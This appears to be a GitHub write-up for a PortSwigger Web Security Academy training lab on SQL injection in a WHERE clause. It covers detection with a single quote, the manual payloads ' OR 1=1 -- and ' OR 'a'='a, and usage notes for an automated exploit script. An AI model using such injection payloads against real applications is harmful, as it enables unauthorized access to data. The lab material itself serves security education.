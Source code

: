 \+ Lab #1    : SQL injection in WHERE clause\
\+ Lab Level : Apprentice\
\+ Link      : https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data \


## About:
This lab contains a [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following: 
```SQL
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```
To solve the lab, perform a SQL injection attack that causes the application to display details of all products in any category, both released and unreleased. 

## Detection: 
* Submit a single quotation mark ```'``` in ```/filter?category=Gifts``` to break out the original SQL query quotation marks and cause an error
* The resulting query sent by the App to the back-end database:
```SQL
SELECT * FROM products WHERE category = 'Gifts'' AND released = 1
```
* The App returns a ```500 Internal Server Error``` response, which means that an error has occured in the back-end while processing the query.
* The ```category``` parameter is vulnerable to SQL injection.

## Exploitation:
### Manual:
1. Intercept the request with Burp Suite proxy
2. Send the request to repeater
3. Inject the ```category``` parameter with the following payload: ``` ' OR 1=1 --``` 
4. The resulting SQL query sent by the App to the backend database: 
```SQL
SELECT * FROM products WHERE category = '' OR 1=1 --' AND released = 1
SELECT * FROM products WHERE category = '' OR 1=1
```
> :memo: **Note:** The following payload ```' OR 'a'='a``` is also valid and achieves the same result as the 1=1 attack to return all products, regardless of whether they have been released.
```SQL
SELECT * FROM products WHERE category = '' OR 'a'='a' AND released = 1 
```

### Automated:
* Refer to https://github.com/YounesTasra-R4z3rSw0rd/Web-Security-Academy/blob/main/SQL%20Injection/Lab%231/Lab-1.py
* Requirements:
```bash
pip3 install -m requirements.txt
```
* Help Menu: 
```bash
$ python3 Lab-1.py --help
usage: Lab-1.py [-h] -u URL [-n]

Usage Example: python3 SQLi-Lab#1.py --url https://0a2100.web-security-academy.net/ --no-proxy

options:
  -h, --help         show this help message and exit
  -u URL, --url URL  Enter the Lab URL
  -n, --no-proxy     Do not use proxy                               
```
![Lab#1](https://user-images.githubusercontent.com/101610095/219432009-faf5cc9a-1828-47fc-8f9d-07eaa67ebb20.gif)
